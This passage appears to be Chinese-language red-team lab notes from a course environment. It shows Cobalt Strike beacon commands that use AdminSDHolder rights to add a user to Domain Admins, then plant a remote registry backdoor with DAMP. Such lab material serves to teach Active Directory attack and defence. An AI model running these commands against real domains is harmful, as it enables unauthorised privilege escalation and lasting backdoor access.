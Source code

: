 上面操作成功后应显示

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/adminsdholder.png?width=1920)


一旦生效,对Domain Admins组也有了 full control权限

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/da-full-control.png?width=1920)

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            nlamb                    
The command completed successfully.

beacon> run net group "Domain Admins" bfarmer /domain /add
The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            bfarmer                  nlamb                    
The command completed successfully.
```


# Remote Registry Backdoor

远程主机注册表后门

使用工具[DAMP](https://github.com/HarmJ0y/DAMP)

取得了本机(srv-2)的本地管理员权限，为用户DEV\bfarmer添加注册表后门
```
beacon> run hostname
srv-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee DEV\bfarmer

ComputerName BackdoorTrustee
------------ ---------------
SRV-2        DEV\bfarmer
```
